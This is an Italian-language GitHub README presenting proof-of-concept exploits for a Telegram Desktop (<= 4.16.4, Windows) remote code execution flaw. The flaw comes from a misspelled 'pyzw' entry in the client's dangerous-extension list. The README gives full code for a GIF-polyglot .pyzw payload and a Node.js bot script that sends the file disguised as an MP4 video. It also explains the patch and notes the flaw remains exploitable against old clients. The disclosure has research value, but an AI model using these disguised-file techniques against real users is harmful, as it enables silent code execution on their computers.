 # TELEGRAM DESKTOP RCE
## Setup della vittima
- **Telegram Desktop Version <= 4.16.4**
- **Python installato**
- **OS = Windows**

### WARNING: Questi PoC funzionano solo su Windows, altri sistemi operativi non sono stati testati.
La vulnerabilità si basa sul "typo" nello scrivere il nome dell'estensione "pyzw" nell'elenco delle estensioni pericolose.
<div style="text-align:center">
![photo1713802375(1)](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/1908a7dc-816b-47a9-9389-9915de4e2ea1)
</div>
## PoC 1 ==> file polyglot (image/gif)

File con del codice python ma che ha MIME “image/gif”
**exploit1.pyzw**
```
GIF89A = “test”
import os
os.system(“calc”)
```
Infatti **inserendo nell’header del file il magic number 47 49 46 38 37 61 (GIF89A)
è possibile creare un file che sembra una GIF ma che in realtà nasconde al suo interno un codice malevolo**.
<div style="text-align:center">
![photo1713493979](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/a8e72a18-55bb-401c-bfb9-a2c17799c98d)
</div>
L'hexdump:
<div style="text-align:center">
![image_2024-04-19_04-04-03](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/05e65e01-c8a7-43c7-a50d-d362773e44be)
</div>
Durante il caricamento il file viene considerato come una GIF da telegram desktop
tuttavia, nel momento di visualizzazione appare come una GIF non funzionante e viene visualizzato come un rettangolo nero.

Essendo considerata come una GIF da telegram desktop, quando il client prova ad aprirla, viene passato il controllo al sistema operativo; a quel punto Windows (basandoci sull’estensione e non sul MIME) la apre con python, permettendo di fatto RCE.

## PoC 2 ==> Telegram BOT API (video/mp4)
Codice che si vuole far eseguire alla vittima
**exploit2.pyzw**
```
__import__("subprocess").call(["calc.exe"])
```

Questa vulnerabilità sfrutta un altro concetto, le API di telegram hanno una funzione **SendVideo** che permette di inviare dei video tramite multipart/form-data e si è scoperto che **non ci sono controlli per verificare se viene effettivamente caricato un file di tipo video, dunque è possibile caricare dei file di qualunque estensione e di qualsiasi MIME come fossero dei video**.
<div style="text-align:center">
![immagine](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/1e02b04d-64c7-4f65-8d56-80026b492286)
</div>
Dato che il client si fida(va) ciecamente del server, il file verrà visualizzato come un video.

**SendVideoCall.js**
```
const fs = require("fs");
const TelegramBot = require("node-telegram-bot-api");

const token = "<BOT_TOKEN>";

const bot = new TelegramBot(token, { polling: true });

bot.onText(/\/video/, (msg) => {
  const chatId = msg.chat.id;

  bot.sendVideo(
    chatId,
    fs.readFileSync("exploit2.pyzw"),
    {
      width: 300,
      height: 300,
      duration: 30,
      // thumbnail: "https://duckduckgo.com/favicon.ico",
    }, {
      filename: "fakeVideo.pyzw",
      contentType: "video/mp4"
    }
  );
});
```

Tuttavia, nel momento di visualizzazione, appare come un video non funzionante e viene visualizzato come un rettangolo nero con il simbolo "play" al centro e la durata fake (specificata dall'attaccante nella sua API call nell parametro "duration").
<div style="text-align:center">
<img width="545" alt="image_2024-04-22_19-59-25" src="https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/4286b7f6-e70e-470d-a661-d7f1fa5f9cbd">
</div>

Quando il client prova ad aprirlo (essendo considerato come un video da telegram desktop) viene passato il controllo al sistema operativo; a quel punto Windows (basandoci sull’estensione e non sul Content-Type) lo apre con python, permettendo di fatto RCE.

## WARNING: la vulnerabilità è stata patchata!
- **lato server**: aggiungendo l'estensione .untrusted ai file .pyzw (*.pyzw.untrusted)
- **lato client** (> 4.16.4) :
	* aggiungendo "pyzw" all'elenco delle estensioni pericolose
	* facendo in modo che non venga mostrata l'ateprima delle GIF e dei video non funzionanti 
	* aggiungendo un controllo per verificare che il MIME corrisponde al tipo di estensione inviata; se non corrisponde, il client aggiungerà l'estensione corrispondente al MIME/Content type, ad esempio:
		*  se viene inviato un file con MIME GIF verrà scaricato dal client con estensione corrispondente \*.pyzw.gif, 
		*  invece, se il file viene inviato dal BOT con ContentType "video/mp4" allora il file verrà scaricato sul client come \*.pyzw.mp4.
 	
<br>
<div style="text-align:center">
![photo1713802375](https://github.com/Raffo24/telegram-desktop-PoC/assets/46811658/2ae70b62-e69b-424b-9649-ad347670e30d)
</div>

**È ancora possibile sfruttare la vulnerabilità** rielaborando uno degli exploit se: 
- il target ha ancora il client telegram desktop vecchio installato (<= 4.16.4);
- si conosce un programma installato nel computer della vittima in grado di eseguire delle azioni a seguito dell'apertura di un file.
